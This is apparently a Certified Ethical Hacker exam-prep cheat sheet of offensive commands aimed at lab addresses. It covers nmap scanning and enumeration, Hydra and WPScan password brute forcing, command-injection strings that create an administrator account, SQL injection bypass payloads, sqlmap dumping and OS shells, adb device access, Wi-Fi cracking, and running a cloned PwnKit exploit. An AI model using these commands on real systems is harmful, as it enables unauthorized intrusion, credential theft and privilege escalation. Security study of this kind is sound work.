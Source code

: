 **Scanning Networks**

    1- Nmap scan for alive/active hosts command for 192.189.19.18- nmap -A 192.189.19.0/24 or nmap -T4 -A IP

    2- Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command- nmap -sT -v 10.10.10.16

    3- Nmap scan if firewall/IDS is opened, half scan- nmap -sS -v 10.10.10.16 
    If even this the above command is not working then use this command-  namp -f 10.10.10.16
    4- -A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).

    5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP 
    value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.

    6- Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use nmap -A 192.168.92.10

    7- If host is windows then use this command - nmap --script smb-os-discovery.nse 192.168.12.22 (this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 
    445 or 139).

    8- nmap command for source port manipulation, in this port is given or we use common port-  nmap -g 80 10.10.10.10


**Enumeration**

    1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

    2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

    3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                              snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

    4- DNS recon/enum-  dnsrecon -d www.google.com -z

    5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

    6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				      enum4linux -u martin -p apple -P 10.10.10.10 (policy info)

**Quick Overview (Steganography) --> Snow, Openstego**

    1- Hide Data Using Whitespace Stegnography- snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  (magic is password and your secret is stored in 
       readme2.txt along with the content of readme.txt)
    2- To Display Hidden Data- snow -C -p "magic" readme2.txt (then it will show the content of readme2.txt content)
    3- Image Stegnography using Openstego- PRACTICE ??


**Sniffing**

    1- Password Sniffing using Wireshark- In pcap file apply filter: http.request.method==POST (you will get all the post request) Now to capture password click on edit in menu bar, then near 
     Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and 
     then type "pwd" in the find section.


**Hacking Web Servers**


    1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

    2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

    3- Crack FTP credentials using nmap-  nmap -p 21 10.10.10.10 (check if it is open or not)
				          ftp 10.10.10.10 (To see if it is directly connecting or needing credentials)


    Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file.
    Now in terminal type-  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10


    hydra -l user -P passlist.txt ftp://10.10.10.10



**Hacking Web Application**


    1- Scan Using OWASP ZAP (Parrot)- Type zaproxy in the terminal and then it would open. In target tab put the url and click automated scan.

    2- Directory Bruteforcing- gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

    3- Enumerate a Web Application using WPscan & Metasploit BFA-  wpscan --url http://10.10.10.10:8080/NEW --enumerate u  (u means username) 
    Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

    4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
                                     wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

    5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
    Now you can do a RDP connection with the given ip and the Test account which you created.


**SQL Injections**

    1- Auth Bypass-  hi'OR 1=1 --

    2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--

    3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
    Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
    sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs

    4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename 
     --tables

    5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T 
    Table_Name --dump   (Get username and password)

    6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell

    6.1 In the shell type-   TASKLIST  (to view the tasks)

    6.2 Use systeminfo for windows to get all os version

    6.3 Use uname -a for linux to get os version



**Android**

    1- nmap ip -sV -p 5555    (Scan for adb port)

    2- adb connect IP:5555    (Connect adb with parrot)

    3- adb shell              (Access mobile device on parrot)

    4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)


**Wireshark**

    tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

    tcp.flags.syn == 1   (Which machine for dos)

    http.request.method == POST   (for passwords) or click tools ---> credentials Also
   


**Find FQDN**

    nmap -p389 –sV -iL <target_list>  or nmap -p389 –sV <target_IP> (Find the FQDN in a subnet/network)


**Cracking Wi-Fi networks**

    Cracking Wifi Password

    aircrack-ng [pcap file] (For cracking WEP network)

    aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)


**Some extra work**


    Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)

    Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)


**1) Wireless attack**

    --> aircrack-ng cap_file -w password_dir

**2) malware analysis**

    --> PEiD tool 
    1) open file
    2) find information

**3) IOT**
    
    1) search mqtt on the traffic
    2) select publish message
    3) find the msg len

**4) privilege escalation**
 
     1) for linux download linpeas
        => https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
     2) find a vulnerability like (pwnkit)
     3) go to https://github.com/arthepsy/CVE-2021-4034
     4) git clone
     5) cd to that exploit
     6) enter make
     7) run the compiled code 
     8) whoami 

**5) Android**
  
    with phonsploit
      1) download phonesploit
      2) run with python3 phonesploit.py
      3) Enter the IP
      4) type 4 to get the shell
      5) search of the file
     6) to download exit from the shell then enter 9 then give the file path /



**6) Vulnerability analysis**

     1) click openvas
     2) Enter linux pass
     3) enter the local IP on the browser
     4) login with admin & password
     5) click scans > tasks > task wizard > enter the IP for scan > start scan
